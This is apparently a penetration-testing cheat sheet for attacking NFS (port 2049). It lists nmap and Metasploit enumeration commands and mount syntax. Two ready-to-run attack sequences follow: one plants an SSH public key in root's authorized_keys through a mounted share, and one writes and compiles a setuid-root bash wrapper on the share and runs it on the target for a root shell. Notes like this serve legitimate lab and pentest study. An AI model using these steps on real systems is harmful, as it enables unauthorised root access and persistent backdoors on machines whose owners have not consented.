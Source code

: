 # 2049 (NFS)

## Enumeration

### nmap Scripts

```bash
nmap -p 2049 --script=nfs* <IP>
nfs-ls  # List NFS exports and check permissions
nfs-showmount  # Like showmount -e
nfs-statfs  # Disk statistics and info from NFS share
```

### Metasploit

Scan NFS mounts and list permissions.

```bash
scanner/nfs/nfsmount
```

### Check Shares

Check Available Folders

```bash
showmount -e <IP>
cat /etc/exports  # List exported shares
```

## Mounting

### Create Mount

```bash
# Syntax
mount -t nfs [-o vers=2] <ip>:<remote_folder> <local_folder> -o nolock
# Example
mkdir /mnt/myroot
mount -t nfs [-o vers=2] 10.12.0.150:/backup /mnt/myroot -o nolock
# Unmount the mount
umount /mnt/myroot/
```

#### Using SSH

```bash
ssh-keygen  # Generate Key Pair
mkdir /mnt/myroot
mount -t nfs <IP>:/<DIR> /mnt/myroot
cat .ssh/id_rsa.pub >> /mnt/myroot/root/.ssh/authorized_keys
umount /mnt/myroot/
```

### Example Exploit

#### From Attacker as root user

```bash
mkdir <DIRECTORY>
mount -v -t nfs <IP>:<SHARE> <DIRECTORY>
cd <DIRECTORY>
echo 'int main(void){setreuid(0,0); system("/bin/bash"); return 0;}' > pwn.c
gcc pwn.c -o pwn
chmod +s pwn
```

#### From Target as Victim

```bash
cd <SHARE>
./pwn # Root shell
```
